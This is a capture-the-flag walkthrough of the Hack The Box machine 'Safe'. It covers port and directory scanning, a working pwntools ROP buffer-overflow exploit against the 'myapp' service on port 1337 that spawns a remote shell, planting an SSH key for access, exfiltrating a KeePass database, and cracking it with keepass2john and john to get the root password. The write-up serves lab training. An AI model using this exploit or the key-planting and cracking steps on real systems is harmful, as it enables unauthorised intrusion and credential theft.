# Safe
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.147
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-24 17:07 BST
Nmap scan report for 10.10.10.147 (10.10.10.147)
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d7c813d6a3df95f2e1f6a97e500bade (RSA)
|   256 997e1e227672da3cc9617d74d78033d2 (ECDSA)
|_  256 6a6bc38e4b28f76085b162ff54bcd8d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     12:07:15 up 1:02, 0 users, load average: 0.07, 0.03, 0.09
|   DNSVersionBindReqTCP: 
|     12:07:10 up 1:02, 0 users, load average: 0.08, 0.03, 0.09
|   GenericLines: 
|     12:06:57 up 1:02, 0 users, load average: 0.10, 0.04, 0.09
|     What do you want me to echo back?
|   GetRequest: 
|     12:07:03 up 1:02, 0 users, load average: 0.09, 0.04, 0.09
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions: 
|     12:07:04 up 1:02, 0 users, load average: 0.09, 0.04, 0.09
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help: 
|     12:07:20 up 1:02, 0 users, load average: 0.06, 0.03, 0.09
|     What do you want me to echo back? HELP
|   NULL: 
|     12:06:57 up 1:02, 0 users, load average: 0.10, 0.04, 0.09
|   RPCCheck: 
|     12:07:05 up 1:02, 0 users, load average: 0.08, 0.04, 0.09
|   RTSPRequest: 
|     12:07:04 up 1:02, 0 users, load average: 0.09, 0.04, 0.09
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq, TerminalServerCookie: 
|     12:07:21 up 1:02, 0 users, load average: 0.06, 0.03, 0.09
|     What do you want me to echo back?
|   TLSSessionReq: 
|     12:07:22 up 1:02, 0 users, load average: 0.06, 0.03, 0.09
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.93%I=7%D=6/24%Time=649714C5%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2012:06:57\x20up\x20\x201:02,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.10,\x200\.04,\x200\.09\n")%r(GenericLines,63,"\x2012:0
SF:6:57\x20up\x20\x201:02,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.10,\x200\.04,\x200\.09\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2012:07:03\x20up\x20\x201:02,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.09,\x200\.04,\x200\.0
SF:9\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2012:07:04\x20up\x20\x201:02,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.09,\x200\.04,\x200\.09
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2012:07:04\x20up\x20\x201:0
SF:2,\x20\x200\x20users,\x20\x20load\x20average:\x200\.09,\x200\.04,\x200\
SF:.09\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2012:07:05\x20up\x20\x201:0
SF:2,\x20\x200\x20users,\x20\x20load\x20average:\x200\.08,\x200\.04,\x200\
SF:.09\n")%r(DNSVersionBindReqTCP,3E,"\x2012:07:10\x20up\x20\x201:02,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.08,\x200\.03,\x200\.09\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2012:07:15\x20up\x20\x201:02,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.07,\x200\.03,\x200\.09\n")%r(Help,
SF:67,"\x2012:07:20\x20up\x20\x201:02,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.06,\x200\.03,\x200\.09\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2012:07:21
SF:\x20up\x20\x201:02,\x20\x200\x20users,\x20\x20load\x20average:\x200\.06
SF:,\x200\.03,\x200\.09\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2012:07:21\x20up\
SF:x20\x201:02,\x20\x200\x20users,\x20\x20load\x20average:\x200\.06,\x200\
SF:.03,\x200\.09\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2012:07:22\x20up\x20\x201:02,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.06,\x200\.03,\x200\.09\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.88 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.147 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.147
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2023/06/24 16:22:12 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 10787]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.147/manual/]
/.html                (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 300]
```
- Web server has a hint about the port `1337`
  - Visting path `/myapp` downloads `myapp`
  - Let's check port `1337`





- `myapp` file


## Foothold/User
- Let's debug `myapp`



- `main` function
  - The variable is `0x70` bytes away from the top of the stack



- Let's find an offset
  - Type `set follow-fork-mode parent` since `pwndbg` and `peda` sets follow mode to child, while `gdb` sets it to parent by default
  - Create pattern: `msf-pattern_create -l 150`
  - Run and input the pattern
  - Search the offset: `msf-pattern_offset -q Ae0A` (based on screen)


- We can check if the offset found is correct
  - Execute: `python3 -c 'print("A"*120 + "B" * 8)'`
  - Run and input the string generated


- Okay, now we need to come up with a strategy 
  - I also found `test` function, which is never called



- We can try putting `system` address to `r13` and place `/bin/sh` on top of the stack
  - And then call `test()`
  - Which should give us a shell
  - But we need a gadget to put `system` to `r13`
  - Let's search for gadgets
    - We can do it with `ropper`
    - Install: `sudo apt install ropper`
    - Run: `ropper myapp | grep r13`




- We can choose 2-nd option
  - Our final exploit

```
#MAIN: 0040115f 
#pop r13: 00401206
#test: 00401152
#system: 0040116e

from pwn import *
p = remote("10.10.10.147", 1337)
context(os='linux', arch='amd64')

padding = ("A" * 112).encode()
payload = "/bin/sh\x00".encode()
ret_system = p64(0x40116e)
pop_r13 = p64(0x401206)
junk = p64(0x0)
ret_test = p64(0x401152)

p.sendline(padding + payload + pop_r13 + ret_system + junk + junk + ret_test)
p.interactive()
```

- Let's run it



## Root
- Enumerate for privesc
  - We see `MyPasswords.kdbx`
  - And also other `jpg` files



- We can upgrade our shell via `ssh`, so we can download the file
  - `cd /home/user/.ssh/`
  - If you have generated `id_rsa` key, simply use the value in `id_rsa.pub` and save it to `authorized_keys` like down below
    - If not, generate it and do the same thing
  - `$ echo 'ssh-rsa AAAAB3NzaC1yc2EA...' > authorized_keys` 
  - ssh to box using your `id_rsa`: `ssh -i id_rsa user@10.10.10.147`



- Now we can download `MyPasswords.kdbx` and `JPG` files
  - `scp  -i id_rsa user@10.10.10.147:~/MyPasswords.kdbx ./`
  - `scp  -i ~/.ssh/id_rsa user@10.10.10.147:~/*.JPG ./`




- Since there is an option to protect `DB` file using `key file`
  - We can assume that those `JPG` file as `key files`, so we can create hashes for each of the six images as keyfiles
  - `for i in *.JPG; do (keepass2john -k $i MyPasswords.kdbx >> hashes.txt); done;`




- Use `john` to crack the hashes



- Once we get our password we can use it to explore `MyPasswords.kdbx`
  - We see the `Root password` entry



- Use it to `su`


